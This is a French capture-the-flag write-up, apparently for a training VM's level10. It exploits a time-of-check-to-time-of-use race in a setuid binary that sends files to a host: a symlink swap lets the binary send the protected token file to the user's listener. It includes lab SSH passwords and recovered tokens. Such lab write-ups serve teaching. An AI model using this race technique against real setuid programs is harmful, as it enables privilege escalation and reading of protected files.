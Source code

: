 # Level10

Se connecter en tant que level10:

    $ ssh 192.168.1.124 -p 4242 -l level10
    level10@192.168.1.124's password: s5cAJpM8ev6XHw998pRWG728z

---

Premiere étape de recherche

    $ ls -la
    -rwsr-sr-x+ 1 flag10  level10 10817 Mar  5  2016 level10
    -rw-------  1 flag10  flag10     26 Mar  5  2016 token

> Comme pour le level 8 et 9 nous avons toujours 2 fichiers, un binaire portant le nom du level et un fichier token.
> Mais pour le level 8 et 10, n'avons pas les droits pour lire le fichier token, mais le binaire possède un stickybit qui lui donne les droit de son owner flag10, qui est le même que l'owner du token.

    $ ./level10
    ./level10 file host
    sends file to host if you have access to it

> Le programme envoi un fichier vers une adresse à première vue

    $ ./level10 token localhost
    You don't have access to token

    $ ./level10 .profile localhost
    Connecting to localhost:6969 .. Unable to connect to host localhost

> Pas de problèmes de droits avec un fichier appartenant à level10

Donc le programme essaye de se connecter à une adresse IP passée en argument sur le port 6969 et d'écrire le fichier passé en argument sur le serveur.

On va devoir chercher un peu plus avec GDB

    $ gdb level10
    $ (gdb) disas main
    ...
    0x08048749 <+117>:	call   0x80485e0 <access@plt>
    ...
    0x0804889b <+455>:	call   0x80485a0 <open@plt>
    ...

> On voit un appel à access très tôt (surement pour checker les droits du fichier à ouvrir) et le open est fait bien plus loin, après l'ouverture de la socket

Avant de se connecter, la fonction access est appellée afin de vérifier les droits de l'utilisateur réel (donc qui exécute le binaire). L'utilisateur réel level10 n'as pas les droits sur le fichier token.

Mais l'utilisation d'access puis open crée un trou de sécurité comme l'explique le man de [access](http://manpagesfr.free.fr/man/man2/access.2.html), car entre le temps de la vérification et de l'ouverture nous pouvons crée un lien symbolique d'un fichier ou quel nous n'avons pas les droits réel.

Ainsi, il est possible de donner en paramètre à lexécutable un fichier sur lequel nous avons tous les droits, afin que la fonction access retourne une réponse positive.

Ensuite, en passant l'adresse IP de la machine 192.168.1.124, l'executable level10 attend une réponse ce qui nous laisse le temps de créer un lien symbolique sur le fichier passé en paramètre vers le fichier token.
pour faire ce scenario on créer un script python pour lance le serveur est cree le lien sumbolique quand on recoit un connection.

    $ python /tmp/nc.py&

    $ rm -f /tmp/ex; touch /tmp/ex; ./level10 /tmp/ex <machine-ip>

    $ su flag10
    Password:
    Don't forget to launch getflag !
    $ getflag
    Check flag.Here is your token : feulo4b72j7edeahuete3no7c
